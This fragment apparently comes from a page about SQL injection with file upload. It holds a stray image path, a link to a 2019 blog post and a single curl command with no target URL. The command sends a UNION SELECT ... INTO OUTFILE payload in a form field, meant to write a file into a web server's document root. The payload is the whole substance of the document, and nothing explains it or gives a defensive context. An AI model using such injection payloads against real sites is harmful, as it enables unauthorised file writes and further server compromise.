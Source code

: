 https://neetech18.blogspot.com/2019/10/sql-injection-with-file-upload.html

```
curl -v -d "username=pencer12&country=Belgium' union select 'pencer testing' into outfile '/var/www/html/pencer.txt';-- - "
```